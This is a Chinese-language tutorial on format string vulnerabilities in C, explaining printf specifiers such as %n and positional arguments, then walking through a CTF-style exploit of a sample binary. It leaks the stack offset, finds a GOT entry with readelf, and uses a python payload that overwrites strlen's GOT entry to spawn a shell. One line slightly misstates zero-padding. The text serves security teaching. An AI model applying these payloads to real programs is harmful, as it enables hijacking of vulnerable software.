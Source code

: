 # 格式化字符串漏洞
## 0.一个坑爹的问题 
这个问题与主题没太大关系，还是提一提吧  
在ubuntu16.10后gcc编译时默认加上了参数`-pie`，也就是运行地址随机化，可以更好的抵挡攻击，防pwn，但是出题就比较坑爹了  
只需要编译时加上参数`-no-pie`即可  
## 1. 格式化字符串简介
>格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。

以上摘自wiki:[格式化字符串](https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2)  
为了格式化字符串，需要使用占位符用于指明输出的参数值如何格式化。  
在c语言中的printf这一大类函数中（包括vprintf，sprintf等），使用%d,%c,%s等占位符对字符串进行格式化  
然而，一些特殊的用法往往被人们忽略了  
* 控制输出长度  
`%nx`表示按16进制输出，不足n位的话在字符串前面补空格  
`%0nx`表示按16进制输出，不足n位的话在字符串前面补空格  
其它占位符同理  
* 指定参数  
`%n$x`表示把第n个参数按16进制输出  
注：  
a. 指定参数可以与控制输出长度结合使用，如`%n$08x`  
b. 指定参数不影响正常的输出，若执行`printf("%3$d.%d.%d.%d", 1, 2, 3);`，则输出3.1.2.3  
c.在x86下指定参数时printf认为每个参数的长度为4字节，所以在碰上`long long`这样8字节或者更多的参数时，指定参数可能会出错，需要具体情况具体分析  
* 保存输出字符的个数
可使用%n保存输出字符的个数到变量中  
`printf("1234%n", &a)`  
由于输出了4个字符，将4写入a
注:  
a.可以与指定参数结合使用  
b.后面的参数为变量的地址，而不是变量的本身（好像是废话）  

## 2.漏洞原因
在c语言中，往往有输出字符串的场景，当输出一个字符串的一般写法为  
```C
printf("%s", str);
```
当一些程序员偷懒后就成为了  
```C
printf(str);
```
若是攻击者掌握了字符串，那么可以利用1中的特殊用法，对你的程序做一些奇怪的事情，从而pwn掉你的程序  

## 3.利用
由1可知道，%n可以写入数据，%nc等用法可以控制输出字符的长度从而控制数据的数值，结合指定参数，便可以对4字节内存进行读写  
下面以一个题为例来说明  
丢进ida后明显可以看到  
```C
read(0, str, 1023);
puts("Haha, your input is:");
printf(str);
```
明显的一个格式化字符串漏洞  
又看到  
```C
void getflag()
{
    system("/bin/sh");
}
```
发现没有地方调用getflag，考虑修改got表将下面的strlen的函数地址改为getflag的地址（其实不给getflag函数也可以做到，先考虑简单情况）。  
首先先查询str相当于printf的第几个参数  
命令中输入  
```bash
(python -c "print('aaaa.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x')";)|./repeat
```
执行后结果为  
![](img/1.png)  
a对应的16进制ascii码为`61`，由此可以看出第4个参数为str  
执行下列语句
```bash
(python -c "print('aaaa.%4\$08x')";)|./repeat
```
结果为  
![](img/2.png)  
验证自己的语句为正确的  
注:
1. 在python中$需要使用\进行转义输出，应为`\$`  
2. python3全体都是unicode，对于一些不可见字符的处理存在问题，故使用python进行操作  

打开终端，输入  
```bash
readelf -r repeat | grep strlen
```
结果为  
`0804a01c  00000607 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0`  
可以看出strlen在got表中的位置为`0x0804a01c`  
注:
1. readelf命令可以查看elf文件信息，-r表示显示可重定位段的信息  
2. 程序执行动态链接库的函数时，先跳转到plt表，然后跳转到got表  

ida可以看到下图  
![](img/3.png)  
可以得知getflag的地址为`0x0804853b`  

接下来构造字符串更改strlen函数地址即可  
输入如下命令  
```bash
(python -c "print('\x1c\xa0\x04\x08\x1d\xa0\x04\x08\x1e\xa0\x04\x08%47c%4\$hhn%74c%5\$hhn%1919c%6\$hn')";cat) | ./repeat
```
即拿到shell  
注:
1. %n写入4字节，%hn写入2字节，%hhn写入1字节
2. 由于需要写入`0x0804853b`，数据过大，分成三次写入，分别写入0x3b， 0x85, 0x0804（否则会输出时间过长，甚至段错误）  
3. 后面的数值可以自己计算，写入0x3b就应该保证前面输出了0x3b个字符，由于前面已经输出了12个字符，剩下只需要再输出0x3b - 12 = 47个字符。在需要写入0x85时只需要再输出0x85 - 0x3b = 74个字符，下面的同理  
